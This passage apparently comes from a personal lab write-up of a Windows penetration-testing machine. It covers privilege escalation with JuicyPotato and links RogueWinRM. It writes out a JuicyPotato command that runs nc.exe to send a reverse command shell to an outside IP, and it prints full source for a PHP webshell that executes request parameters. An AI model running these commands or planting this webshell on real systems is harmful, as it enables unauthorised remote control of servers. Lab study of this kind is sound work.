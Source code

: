 Try https://github.com/antonioCoco/RogueWinRM - there is no WinRm so this would require more access to the box to start winrm 

## At this point I need to do different machine and not bash head

I decide I was not picking out the correct exploits from the version and need to memorise something I had not so I finished this machine with the YouTube video: [xct](https://www.youtube.com/watch?v=k9p6wZO7RyY)

Architecture confirmation! - Thank you xct
```powershell
set pro
```
![](thxxct.png)


Try different CLIDs for JuicyPotato - https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
```powershell
Juicy.Potato.x86.exe -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -t * -l 1337 -p "C:\wamp\www\nc.exe" -a "192.168.45.180 6969 -e cmd"
```

![](root.png)
## Beyond Root

PHP webshell for Pentesting - does all the techniques and tricks to empirical test which works and which does not to make reporting and remembering a language I can barely say I can use easier.

Started from this webshell.php
```php
<?php
// Made from simple_cmd.php, simple-backdoor.php, php-backdoor.php
// php-backdoor can upload and download stuff!


error_reporting(0);
$cmd = $_REQUEST["cmd"];
if ($cmd != ""){ print Shell_Exec($cmd); 
} else { 
echo "cmd=";
}


if(isset($_REQUEST['systemRequest'])){
        echo "<pre>";
        $systemRequest = ($_REQUEST['systemRequest']);
        system($systemRequest);
        echo "</pre>";
        die;
}
// Really want it to state: Perspective Honed Persistence
// -- The empirical pentest webshell 
//
// Print what does and does not work - no include function or  
// Test the transpiled asp(x) version
?>


<pre><form action="<? echo $PHP_SELF; ?>" METHOD=GET >execute command: <input type="text" name="cmd"><input type="submit" value="go"><hr></form> 
<form action="<? echo $PHP_SELF; ?>" METHOD=GET >execute command: <input type="text" name="cmd"><input type="submit" value="go"><hr></form> 

```